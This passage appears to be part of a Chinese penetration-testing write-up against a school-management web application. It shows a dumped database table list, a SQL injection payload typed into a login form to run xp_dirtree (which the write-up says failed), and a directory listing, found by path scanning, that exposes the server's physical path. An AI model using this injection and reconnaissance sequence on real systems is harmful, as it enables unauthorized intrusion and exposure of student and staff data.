 ```
| T_bsRresult        |
| T_bsRresultC       |
| T_bsStudInfo       |
| T_bsTask           |
| T_bsTaskLn         |
| T_bs_governor      |
| T_bs_student       |
| T_bs_teacher       |
| T_bstj             |
| T_mail             |
| dirs               |
| tty                |
+--------------------+

```

接着执行xp_dirtree获取绝对路径，在登录框注入：

`admin');insert into dirs(paths) exec master..xp_dirtree 'c:/'--   `

结果sqlmap读取为空表，xp_dirtree执行失败

***

御剑扫描后台发现了当前目录下的1.txt文件，爆出了当前站的物理路径

```
 驱动器 E 中的卷是 Data2
 卷的序列号是 8EDA-88C1

 E:\WWW\AspWebApp\******** 的目录

2012-11-23  14:12    <DIR>          .
2012-11-23  14:12    <DIR>          ..
2010-11-05  00:17               656 #安装设置.inf
2012-11-23  14:12                 0 1.txt
2010-11-05  00:17             4,419 ********.asp
2012-06-06  11:36            35,718 ********.xml
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:09    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17             1,686 ********.asp
2010-11-05  00:17             1,888 ********.asp
2010-11-05  00:17             1,610 ********.asp
2010-11-05  00:17             1,617 ********.asp
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17             3,597 ********.asp
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17               621 ********.asp
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17               909 ********.asp
2010-11-05  00:17             1,275 ********.asp
```